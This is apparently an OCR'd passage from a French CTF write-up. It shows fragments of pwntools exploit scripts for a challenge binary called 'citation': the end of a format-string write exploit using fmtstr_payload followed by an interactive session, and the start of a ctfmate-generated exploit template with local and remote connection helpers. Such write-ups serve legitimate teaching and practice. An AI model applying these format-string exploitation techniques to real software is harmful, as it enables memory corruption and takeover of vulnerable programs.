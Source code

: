 ```python
    write_fmt(pwn.fmtstr_payload(buffer_fmt_offset, www, write_size='byte'))
    
    io.interactive()

if __name__ == "__main__":
    io = start()
    exp()
```

* Première partie intended

```python
# -*- coding: utf-8 -*-

# this exploit was generated via
# 1) pwntools
# 2) ctfmate

import os
import time
import pwn

BINARY = "citation"
LIBC = "/lib/x86_64-linux-gnu/libc.so.6"
LD = "/lib64/ld-linux-x86-64.so.2"

# Set up pwntools for the correct architecture
exe = pwn.context.binary = pwn.ELF(BINARY)
libc = pwn.ELF(LIBC)
ld = pwn.ELF(LD)
#pwn.context.terminal = ["tmux", "splitw", "-h"]
pwn.context.delete_corefiles = True
pwn.context.rename_corefiles = False
p64 = pwn.p64
u64 = pwn.u64
p32 = pwn.p32
u32 = pwn.u32
p16 = pwn.p16
u16 = pwn.u16
p8  = pwn.p8
u8  = pwn.u8

host = pwn.args.HOST or '127.0.0.1'
port = int(pwn.args.PORT or 1337)


gdbscript = '''
b write_quote
continue
'''.format(**locals())

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if pwn.args.GDB:
        return pwn.gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return pwn.process([exe.path] + argv, *a, **kw)


def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = pwn.connect(host, port)
    if pwn.args.GDB:
        pwn.gdb.attach(io, gdbscript=gdbscript)
```